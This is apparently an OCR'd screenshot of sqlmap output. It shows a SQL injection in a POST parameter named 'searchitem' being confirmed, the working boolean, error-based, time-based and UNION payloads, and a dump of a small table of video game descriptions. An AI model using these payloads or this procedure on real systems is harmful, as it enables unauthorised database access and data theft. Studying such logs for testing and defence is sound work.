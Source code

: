 ~~~
[18:21:42] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[18:21:42] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[18:21:53] [INFO] POST parameter 'searchitem' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[18:21:53] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:21:53] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[18:21:53] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:21:53] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:21:53] [INFO] target URL appears to have 3 columns in query
[18:21:53] [INFO] POST parameter 'searchitem' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[18:21:53] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'searchitem' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 90 HTTP(s) requests:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-3721' OR 2394=2394#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: searchitem=test' OR (SELECT 5097 FROM(SELECT COUNT(*),CONCAT(0x71786a7a71,(SELECT (ELT(5097=5097,1))),0x716a767671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- DxCi

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=test' AND (SELECT 6401 FROM (SELECT(SLEEP(5)))AwHg)-- GVqd

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=test' UNION ALL SELECT NULL,NULL,CONCAT(0x71786a7a71,0x544568716b59614c494875694f624a49546579797a4258556451587141436978496d4846546c7946,0x716a767671)#
---
[18:22:01] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
[18:22:02] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[18:22:02] [INFO] fetching current database
[18:22:02] [INFO] fetching tables for database: 'db'
[18:22:02] [INFO] fetching columns for table 'post' in database 'db'
[18:22:02] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+------+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id   | name                           | description                                                                                                                                                                                            |
+------+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1    | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
~~~